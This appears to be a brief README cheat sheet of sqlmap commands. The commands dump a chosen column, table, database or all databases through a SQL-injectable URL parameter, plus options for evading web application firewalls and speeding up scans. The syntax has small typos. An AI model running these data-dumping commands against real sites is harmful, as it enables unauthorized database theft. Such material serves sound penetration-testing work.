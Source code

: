 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**   
                        
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump`
 **To Fetch Only All Column & Its Data**          
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump`

 **To Fetch Entire Database's Data** 		     
 `sqlmap - u "url?prm=" -p prm -D dbname  --dump`

 **To Fetch All Databases**
 `sqlmap - u "url?prm=" -p prm --dbs  --dump` 
 or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
 **Parameters**      **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
 **Optimised Url**    **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

```diff
+ this text is highlighted in green
- this text is highlighted in red
```

